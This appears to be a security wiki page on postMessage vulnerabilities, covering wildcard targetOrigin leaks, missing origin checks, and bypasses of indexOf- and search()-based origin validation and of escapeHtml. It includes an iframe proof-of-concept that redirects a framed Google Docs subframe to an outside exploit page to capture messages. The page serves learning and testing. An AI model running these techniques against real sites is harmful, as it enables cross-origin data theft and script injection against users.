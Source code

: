 # PostMessage Vulnerabilities

## **PostMessages wildcards**

**PostMessage** uses the following function to send a message:

```javascript
targetWindow.postMessage(message, targetOrigin, [transfer]);
```

Check that **targetOrigin** could be a url like _https://company.com_, so the messages can only be sent to that user \(secure\). Or it cloud be a wildcard "**\***". In case a wildcard is used, messages could be sent to any domain.

### Attack

In [**this report**](https://blog.geekycat.in/google-vrp-hijacking-your-screenshots/) you can read how you could **iframe a page** that at some point may **sent** a **postmessage** using a **wildcard as targetOrigin** and **modify it's location so the data will be sent to an arbitrary domain**. In order to be able to perform this attack **X-Frame header must not be present** in the vuln page.

```markup
<html>
    <iframe src="https://docs.google.com/document/ID" />
    <script>
       //pseudo code
        
        
        setTimeout(function(){ exp(); }, 6000);

        function exp(){
        setInterval(function(){ 
         window.frames[0].frame[0][2].location="https://geekycat.in/exploit.html";
        }, 100);
        }
    </script>
</html>
```

## addEventListener exploitation

In order to treat the messages a code similar to the following one will be used:

```javascript
window.addEventListener("message", (event) => {
  if (event.origin !== "http://example.org:8080")
    return;

  // ...
}, false);
```

Note in this case how the first thing that the code is doing is **checking the origin**. This is terribly **important** mainly if the page is going to do **anything sensitive** with the received information \(like changing a password\). If it doesn't check the origin, attackers can make victims send arbitrary data to this endpoints and change the victims passwords \(in this example\).

It's important to check the origin and it's **equally important to check it right:**

### Tips/Bypasses in PostMessage vulnerabilities

Copied from [https://jlajara.gitlab.io/web/2020/07/17/Dom\_XSS\_PostMessage\_2.html](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html)

* If `indexOf()` is used to check the origin of the PostMessage event, remember that it can be bypassed if the origin is contained in the string as seen in [_The Bypass_](https://jlajara.gitlab.io/web/2020/07/17/Dom_XSS_PostMessage_2.html#bypass)
* [@filedescriptor](https://twitter.com/filedescriptor): Using `search()` to validate the origin could be insecure. According to the docs of `String.prototype.search()`, the method takes a regular repression object instead of a string. If anything other than regexp is passed, it will get implicitly converted into a regexp.

```javascript
"https://www.safedomain.com".search(t.origin)
```

In regular expression, a dot \(.\) is treated as a wildcard. In other words, any character of the origin can be replaced with a dot. An attacker can take advantage of it and use a special domain instead of the official one to bypass the validation, such as **www.s.afedomain.com**.

* [@bored-engineer](https://bored.engineer/): If `escapeHtml` function is used, the function does not create a `new` escaped object, instead it over-writes properties of the existing object. This means that if we are able to create an object with a controlled property that does not respond to `hasOwnProperty` it will not be escaped.

```javascript
// Expected to fail:
result = u({
  message: "'\"<b>\\"
});
result.message // "&#39;&quot;&lt;b&gt;\"
// Bypassed:
result = u(new Error("'\"<b>\\"));
result.message; // "'"<b>\"
```

`File` object is perfect for this exploit as it has a read-only `name` property which is used by our template and will bypass `escapeHtml` function.

## Tools

{% embed url="https://github.com/benso-io/posta" %}




